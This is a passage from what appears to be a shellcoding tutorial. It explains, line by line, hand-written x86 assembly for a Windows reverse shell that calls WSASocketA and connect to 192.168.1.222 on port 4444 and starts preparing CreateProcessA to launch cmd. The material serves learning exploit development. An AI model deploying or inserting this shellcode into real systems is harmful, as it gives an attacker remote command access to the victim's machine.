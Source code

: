 Here we're specifying the version as a number that's less than the `2.2` we used in our `C++` prototype; however, if you read Marcos' blogpost you will understand why this is acceptable. This also happens to be the size of the `wsaData` structure so we're able to save some bytes by reusing the same value `0x0190`. We `push esp` a pointer to the `wsaData` structure and `push edx` which holds the version number we wish to use (again read Marcos' blogpost for an explanation.)

Notice how at the end we're calling the `DWORD` value held at ESI, this is how we're using those stored addresses to call the functions. The next one will be at `[esi + 0x4]` and then `[esi + 0x8]` and so on. 

Next, we must call `WSASocket`. 
```nasm
; call WSASocketA
push eax                              ; still null from our return code of WSAStartup :)
push eax
push eax
xor edx, edx
mov dl, 0x6
push edx
inc eax
push eax
inc eax
push eax
call dword [esi + 0x4]
```

Refer back to the prototype if you're hazy on the function parameters. Three NULLs. `6`. `1`. `2`. Then we call at the `[esi + 0x4]` offset. 
```nasm
Next up is `connect`. 
; call connect
push 0xde01a8c0                      ; sin_addr set to 192.168.1.222
push word 0x5c11                     ; port = 4444
xor ebx, ebx
add bl, 0x2
push word bx
mov edx, esp
push byte 16
push edx
push eax
xchg eax, edi
call dword [esi + 0x8]
```
This one should be pretty easy to follow along with if you refer back to the `C++` prototype. One confusing thing I'll highlight is the `xchg eax, edi` instruction, this is to store the socket file descriptor we got back from the `WSASocket` call into EDI. It was hanging out in EAX but it's not safe there. Calling this `connect` function will fill EAX with a return value and we need the socket file descriptor for later, so we've saved it in EDI. 

Now comes the hardest function to set-up/understand, `CreateProcessA`. 
```nasm
; CreateProcessA shenanigans
push 0x61646d63                      ; "cmda"
sub dword [esp + 0x3], 0x61          ; "cmd"
mov edx, esp                         ; edx now pointer to our 'cmd' string
```
This part is easy so far, we have EDX pointing to our `cmd` argument for the function call. 
